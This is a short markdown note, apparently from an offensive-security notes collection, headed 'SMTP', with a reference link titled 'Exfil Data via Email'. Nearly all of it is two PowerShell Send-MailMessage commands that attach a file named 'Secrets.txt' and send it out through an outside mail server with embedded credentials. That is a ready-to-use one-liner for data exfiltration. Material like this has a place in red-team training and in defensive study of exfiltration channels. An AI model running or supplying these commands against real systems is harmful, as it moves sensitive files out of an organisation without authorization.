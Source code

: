 # SMTP

## 01 - PowerShell

### 1.1 - Send-MailMessage

```powershell
$username = 'bob@mail.ru'
$password = ConvertTo-SecureString -String "<password>" -AsPlainText -Force
$credentials = New-Object -TypeName  System.Management.Automation.PSCredential -ArgumentList $username, $password
Send-MailMessage -From 'Bob <bob.baronov@mail.ru>' -To 'Alice <alice@mail.ru>' -Subject 'From powershell' -Body 'See  attachments.' -Attachments 'C:\Tools\files\Secrets.txt' -SmtpServer 'box.mail.ru' -Credential $credentials
```

Here's an example

```powershell
$username = 'alice@mail.ru'; $password = ConvertTo-SecureString -String "<password>" -AsPlainText -Force; $credentials = New-Object -TypeName  System.Management.Automation.PSCredential -ArgumentList $username, $password;  Send-MailMessage -From 'bob <bob@mail.ru>' -To 'Alice  <alice@mail.ru>' -Subject 'From powershell' -Body 'See  attachments.' -Attachments 'C:\Tools\files\Secrets.txt' -SmtpServer 'box.mail.ru' -Credential $credentials
```

---
## References

- [Exfil Data via Email](https://docs.anarchy-farm.com/exfil-data-via-e-mail)